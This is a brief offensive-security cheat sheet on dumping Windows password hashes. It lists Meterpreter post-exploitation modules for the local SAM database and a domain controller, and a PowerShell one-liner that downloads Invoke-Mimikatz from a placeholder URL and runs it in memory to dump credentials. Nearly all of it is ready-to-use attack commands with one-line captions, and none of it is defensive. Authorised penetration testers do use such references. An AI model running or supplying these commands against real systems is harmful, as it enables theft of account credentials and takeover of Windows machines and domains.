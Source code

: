 # Windows Hash Dumping

#### Windows

```
run post/windows/gather/hashdump
```

Gather hashes with Meterpreter

Dump the local user accounts from the SAM database using the registry

```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('http://<invoke-mimkatz>'); Invoke-Mimikatz -DumpCreds"
```

Run Invoke-Mimikatz in memory with Powershell web cradle. You can add all arguments to the end of command

```
use post/windows/gather/credentials/domain_hashdump
```

Dump hashes from domain controller safely with Meterpreter
